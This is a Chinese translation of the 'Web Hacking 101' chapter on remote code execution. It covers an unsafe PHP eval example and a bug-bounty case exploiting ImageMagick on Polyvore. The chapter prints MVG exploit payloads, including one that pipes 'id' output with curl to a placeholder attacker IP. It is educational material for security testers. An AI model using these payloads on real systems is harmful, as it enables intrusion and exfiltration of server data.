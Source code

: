```yaml
---
title: Web Hacking 101 中文版 十五、代码执行
id: csdn66475786
---
```


# 十五、代码执行

> 作者：Peter Yaworski
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

远程代码执行是指注入由漏洞应用解释和执行的代码。这通常由用户提交输入，应用使用它而没有任何类型的处理或验证而导致。

看一下这行代码：

```
$var = $_GET['page']; 
eval($var);
```

这里，漏洞应用可能使用 URL`index.php?page=1`，但是，如果用于输入了`index.php?page=1;phpinfo()`，应用就会执行`phpinfo`函数，并返回其内容。

与之类似，远程代码执行有时用于指代命令注入，OWASP 区分了这两点。使用命令驻入，根据 OWASP，漏洞应用在主机操作系统上执行任何命令。同样，这也由不合理处理和验证用户输入导致，这会导致用户输入传递给操作系统的命令。

例如 PHP 中，这可能表现为用户输入传递给`system`函数。

## 示例

### 1\. Polyvore ImageMagick

ImageMagick 是个软件包，通常用于处理图像，例如剪裁、缩放等等。 PHP 的 imagick、Ruby 的 rmagick 以及 paperclip，以及 NodeJs 的 imagemagick 都利用了它。在 2016 年 4 月，该库中发现了多个漏洞，其中可利用的漏洞之一就是执行远程代码，这就是我关注的。

简单来说，ImageMagick 并没有合理地传给他的过滤文件名称，并且最终用于执行`system`方法调用。因此，攻击者利益传入命令来执行，就像`https://example.com”|ls“-la`，它会被执行。一个来自 ImageMagick 的例子是：

```
convert 'https://example.com"|ls "-la' out.png
```

现在，有趣的是，ImageMagick 为 MVG（Magick Vectire Graphics）文件定义了自己的语法。所以，攻击者能够创建文件`exploit.mvg`，带有下列代码：

```
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|ls "-la)' 
pop graphic-context
```

这之后会传给该库，并且如果站点存在漏洞，代码会执行并列出目录中的文件。

了解其背景之后，Ben Sadeghipour 测试了 Yahoo acquisition 站点以及 Polyvore 是否存在漏洞。就像他博文中所述，Ben 首先在它所控制的本地机器上测试了该漏洞，来确认`mvg`文件是否正常工作。这是他使用的代码：

```
push graphic-context 
viewbox 0 0 640 480 
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://SOMEIPADDRESS:80
80/ -d @- > /dev/null`' 
pop graphic-context
```

这里你可以看到，它使用了 CURL 库来调用 SOMEIPADDRESS（将其修改为你服务器的地址）。如果成功，你就会得到像这样的响应：

![](../img/26454525f2eba2d78c7c52bce8104249.png)

Ben Sadeghipour ImageMagick 测试的服务器响应

下面 Ben 浏览了 Polyvore，将文件上传为它的资料头像，并在它的服务器上收到了这个响应：

![](../img/449cf7a7262020b6b5fb4eb1f5b339f9.png)

Ben Sadeghipour Polyvore ImageMagick 响应

> 重要结论
> 
> 阅读是成功渗透的重要组成部分，这包括阅读软件漏洞和常见漏洞，以及披露（CVE 标识符）。当你碰到没有安装安全更新的站点时，了解之前的漏洞能够帮助你。这里， Yahoo 已经修补了服务器，但是没有正确完成（我找不到关于这是什么意思的解释）。一次你，了解 ImageMagick 漏洞让 Ben 特地以这个软件为目标，并得到了 $2000 的奖金。

## 总结

远程代码执行，就像其他漏洞一样，通常是用户输入没有合理验证和处理的结果。这里提供的例子中，ImageMagick 没有合理转义可能为恶意的内容。它和 Ben 对该漏洞的知识一起，让他能够特地寻找和测试一些漏洞站点。对于搜索这些类型的漏洞来说，没有简单的答案。要注意发布的 CVE，并且留意站点所使用的软件，它们可能会过时，也可能存在漏洞。